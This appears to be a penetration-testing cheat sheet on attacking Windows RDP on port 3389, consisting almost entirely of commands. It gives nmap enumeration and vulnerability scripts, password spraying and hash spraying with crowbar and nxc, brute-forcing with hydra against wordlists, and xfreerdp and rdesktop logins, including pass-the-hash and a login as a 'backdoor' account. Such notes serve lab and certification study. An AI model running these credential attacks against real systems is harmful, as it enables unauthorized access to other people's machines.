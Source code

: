 # RDP Port 3389

##### Enumeration

````
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 $ip -Pn
````

##### Password Spray

````
crowbar -b rdp -s 10.11.1.7/32 -U users.txt -C rockyou.txt
nxc rdp $ip -u users.txt -p passwords.txt --continue-on-success
nxc rdp $ip -u users.txt -H $HASH --continue-on-success
````

##### Password Cracking

```bash
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```

###### logging in

````
xfreerdp /cert-ignore /bpp:8 /compression -themes -wallpaper /auto-reconnect /h:1000 /w:1600 /v:192.168.238.191 /u:admin /p:password
xfreerdp /u:admin  /v:192.168.238.191 /cert:ignore /p:"password"  /timeout:20000 /drive:home,/tmp
xfreerdp /v:$ip /u:backdoor /p:Password123 /cert:ignore +clipboard
xfreerdp /v:10.1.1.89 /u:USERX /pth:5e22b03be22022754bf0975251e1e7ac
rdesktop -u 'USERN' -p 'abc123//' 192.168.129.59 -g 94% -d example
````